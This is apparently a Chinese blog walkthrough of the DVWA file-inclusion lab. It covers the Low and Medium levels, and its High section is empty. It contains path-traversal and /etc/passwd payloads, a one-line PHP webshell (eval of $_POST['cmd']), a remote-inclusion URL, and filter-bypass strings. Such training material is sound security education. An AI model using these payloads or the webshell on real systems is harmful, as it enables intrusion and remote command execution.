 ```yaml
---
layout:     post
title:      dvwa之File Inclusion
subtitle:   dvwa的文件包含
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - 文件包含
---
```


## 前言
File Inclusion，意思是文件包含（漏洞），是一种代码处理方式，当一个代码文件想要引用另外一个代码文件，就要用到包含。当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

## Low
#### 源码审查
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```
> 服务器对page参数没有做任何过滤检查

![gFlzS.png](https://s3.jpg.cm/2021/02/19/gFlzS.png)

> 服务器期望用户的操作是点击上面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

#### 漏洞利用
###### 0x01 分析
&emsp;&emsp;尝试修改参数为test.php看一下，发现什么都没有

![](https://img-blog.csdnimg.cn/20201130205317368.png)

&emsp;&emsp;说明这个参数可以利用，盲猜这三个php文件是在一个目录里边的，应该是这样
![](https://img-blog.csdnimg.cn/20181221141159427.png)

&emsp;&emsp;因此我们想要包含跟目录里边的php.ini文件，就要跳转到上两级目录
> 读取www\DVWA\php.ini
> include(“www\DVWA\php.ini”)
> include("www\DVWA\vulnerabilities\fi\../../php.ini")
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020113021052722.png)
&emsp;&emsp;发现allow_url_include和allow_url_fopen是开着的，因此进行远程文件执行

###### 0x02 远程文件执行
&emsp;&emsp;在自己的服务器上放置一个phpinfo.txt文件或者是一句话木马都可以，然后进行远程包含，只要后缀改为php就可以执行，但是如果是非php文件，只要文件里为php格式的代码就可以执行。我们要清楚远程的执行不是在攻击者的web服务器上执行，而是在受害者web服务器上执行命令，所以phpinfo.txt才是正经。
```php
//一句话木马
<?php @eval($_POST['cmd']); ?>
//phpinfo
<?
phpinfo();
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201130213630878.png)

> PS：下面这是在谜团靶场执行靶场的phpinfo()![gtgdh.png](https://s3.jpg.cm/2021/02/18/gtgdh.png)
```bash
http://340d990415234f43a620e1071184f98d.app.mituan.zone/vulnerabilities/fi/?page=http://340d990415234f43a620e1071184f98d.app.mituan.zone/phpinfo.php
```

## Medium
#### 源码审查
&emsp;&emsp;将输入的url参数中包含的“http://”、“https://”, “. . /” , ". . ""等字符串替换成空的字符串，
即过滤了远程文件包含, 对于绝对路径和本地文件包含并没有任何过滤。当然也可以用大小写或者双写的方式绕过。
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
?> 
```
#### 攻击方式
构造payload
```php
page=/etc/passwd
page=hTTp://www.baidu.com
page=hthttp://tp://www.baidu.com
```
![gFVIW.png](https://s3.jpg.cm/2021/02/19/gFVIW.png)

![gFuhO.png](https://s3.jpg.cm/2021/02/19/gFuhO.png)

## High
#### 源码审查

```php

```